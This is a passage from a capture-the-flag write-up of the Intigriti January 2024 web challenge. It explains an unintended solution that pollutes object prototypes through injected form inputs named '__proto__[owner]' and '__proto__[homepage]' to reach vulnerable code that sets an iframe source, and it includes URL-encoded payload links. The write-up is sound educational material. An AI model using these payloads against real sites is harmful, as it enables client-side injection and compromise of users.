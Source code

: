 The unintended solutions are possible due to the following code snippet in `search.ejs` (removed in the patched version).

```js
if (repo.homepage && repo.homepage.startsWith("https://")) {
    $("#homepage").attr({
        src: repo.homepage,
        hidden: false,
    });
}
```

To exploit this vulnerable code, we must satisfy some conditions 👇

### Polluting the repo owner

Here's the first one. If the `repo.owner` isn't set, the function will return, and we can never reach the vulnerable code.

```js
const repo = d.data;
if (!repo.owner) {
    alert("Not found!");
    return;
}
```

Therefore, we pollute the prototype to include an `owner` property. Since `repo` is an object, it will inherit the property making `repo.owner == cat`. Remember you might need to [URL encode the payload](https://challenge-0124.intigriti.io/challenge?name=%3Cform%20id=%22search%22%3E%3Cinput%20name=%22__proto__[owner]%22%20value=%22cat%22%3E%3C/form%3E&search=test).

```html
name=
<form id="search"><input name="__proto__[owner]" value="cat" /></form>
&search=test
```

If you want to visualise this process, set a breakpoint at the if statement. When the execution pauses, swap to the console, enter`repo.owner` and confirm that the value is `cat`, as expected.

### Polluting the repo homepage

Here's the next condition. Set up another breakpoint and refresh the page; you should see that `repo.homepage` is `undefined`. If we want the code inside this if statement to execute, we must set a homepage and ensure it begins with `https://`.

```js
if (repo.homepage && repo.homepage.startsWith("https://")) {
    $("#homepage").attr({
        src: repo.homepage,
        hidden: false,
    });
}
```

We already saw we can pollute the `repo.owner`, so let's [repeat the process](https://challenge-0124.intigriti.io/challenge?name=%3Cform%20id%3D%22search%22%3E%3Cinput%20name%3D%22__proto__%5Bowner%5D%22%20value%3D%22cat%22%3E%3Cinput%20name%3D%22__proto__%5Bhomepage%5D%22%20value%3D%22https%3A%2F%2Fcrypto.cat%22%3E%3C%2Fform%3E&search=test) for `repo.homepage`.
